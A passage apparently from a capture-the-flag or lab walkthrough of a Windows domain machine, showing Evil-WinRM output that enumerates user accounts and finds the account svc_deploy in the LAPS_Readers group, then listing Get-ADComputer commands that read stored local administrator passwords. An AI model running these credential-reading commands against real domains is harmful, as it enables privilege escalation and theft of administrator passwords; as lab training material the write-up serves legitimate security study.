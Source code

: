 
```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user}

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\legacyy\Desktop> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/23/2022 9:43:05 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Going over the previous commands, we can see that our user is not domain admin but it is within the LAPS_Readers group. LAPS stands for _Local Administrator Password Solution_ and if the group name is not a rabbit hole, we could be able to read the credentials of local accounts of domain-joined computers. A quick guide on this attack can be found in this [post](https://www.hackingarticles.in/credential-dumpinglaps/).

We can run the any of following commands:

```bash
# To get all the properties
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *

# To get only the passwords
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
```
